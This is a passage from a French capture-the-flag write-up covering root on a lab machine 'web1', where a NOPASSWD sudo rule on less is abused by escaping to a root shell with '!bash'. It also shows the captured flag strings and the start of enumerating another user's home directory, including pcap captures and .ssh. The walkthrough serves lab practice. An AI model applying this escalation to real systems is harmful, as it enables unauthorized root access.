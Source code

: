 ## **Trophee 2 - Rooting la machine web1**

**wohnohgie7apah7hohquiov5ohZahg**

Maintenant, on fait `sudo -l` pour voir si on peut executer des commandes avec de l'élévation de privilèges on a le résultat suivant:

```
www-data@web1:~$ sudo -l
...  

User www-data may run the following commands on web1:
    (root) NOPASSWD: /usr/bin/less /var/log/apache2/error.log
```

On peut voir qu'on peut éxécuter la commande comme root. Alors on fait:

`sudo -u root /usr/bin/less /var/log/apache2/error.log` 

et on ouvre le bash via **less** la commande:

`!bash` 

comme ça, on devient **root**, et en tant que root, on accède le dossier de root en faisant `cd` et après on fait `ls`. Comme ça, on trouve le deuxième **trophee.trp**

```
root@web1:/var/www# cd
root@web1:~# ls
Downloads  trophee.trp
root@web1:~# cat trophee.trp
wohnohgie7apah7hohquiov5ohZahg
```

## **Trophee 3 - Accès à la machine web2**

**xohlohp6Zeikai8idaxee3ciexahvi**

Dès qu'on a root sur la machine `web1` on peut voir tous les autres users de la machine en faisant: 

`ls /home` on voit:

```
root@web1:~# ls /home
batman  joshua  luiggi  random
```

On commence ici par explorer le premier user `batman` en faisant

`ls -la /home/batman` on voit:

```
root@web1:/home/batman# ls -la
total 80
drwx------ 3 batman batman  4096 Apr 27 11:02 .
drwxr-xr-x 6 root   root    4096 Apr 25 08:15 ..
-rw------- 1 batman batman   458 Apr 13 19:57 .bash_history
-rw-r--r-- 1 batman batman   220 Mar 18  2021 .bash_logout
-rw-r--r-- 1 batman batman  3541 Apr 13 19:57 .bashrc
-rw-r--r-- 1 root   root    8212 Apr 27 07:12 out2.pcap
-rw-r--r-- 1 root   root   20023 Apr 27 07:12 out.pcap
-rw-r--r-- 1 batman batman   807 Mar 19  2021 .profile
drwx------ 2 batman batman  4096 Apr 25 15:13 .ssh
-rw-r--r-- 1 root   root   12288 Apr 26 14:44 .telnet_traffic.pcap.swp
-rw------- 1 batman batman  7881 Apr 27 11:02 .viminfo
```
